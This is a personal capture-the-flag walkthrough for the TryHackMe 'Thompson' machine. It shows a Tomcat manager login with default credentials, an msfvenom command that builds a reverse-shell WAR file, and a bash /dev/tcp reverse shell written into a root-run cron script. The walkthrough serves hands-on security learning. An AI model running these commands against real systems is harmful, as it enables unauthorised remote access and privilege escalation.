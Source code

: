 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Thompson
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtthompson
```

```
nmap -sSVC -T5 -p- -oN thompson 10.10.58.155
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
|_  256 b5527e9c019b980c73592035ee23f1a5 (ED25519)

8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 8009 

- I tried exploiting the `ghostcat` vulnerability since the Jserv Protocol is open but it didn't reveal any credentials. More details in [[THM - Tomghost]] ; pretty much exact scenario so far.

#### PORT 8080

- I've checked for the `/manager` page but it asked for credentials. I clicked on cancel and got redirected to a `401 Unauthorized` page with the following credentials example

```
For example, to add the manager-gui role to a user named tomcat with a password of {REDACTED}, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="{REDACTED}" roles="manager-gui"/>
```

- So I've tried that default pair of credentials ... they worked :) 

- So we have access to Tomcat's Web Application Manager. The simplest thing we can do here is to upload a `.war` file that executes a reverse shell. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=attacker_ip LPORT=9999 -f war -o shell.war
```

- Upload the resulted file in the apache manager and deploy it. 

- Then, start a listener and access the webpage.

- I got a connection back under the user `tomcat`. 

- I took a look in `/home/jack` and found the following

- `id.sh` is a script what is writable by us but owned by jack. However, I checked crontab and it seems to be executed by root every minute, so whatever we write in this will get executed as root.

- I've replaced the content with a bash reverse shell

```
#!/bin/bash
sh -i >& /dev/tcp/ip/3131 0>&1
```

- This allowed me to start another reverse shell and to escalate privileges to `root`.

- First flag is in `/home/jack/user.txt`. 
- Last flag is in `/root/root.txt`. 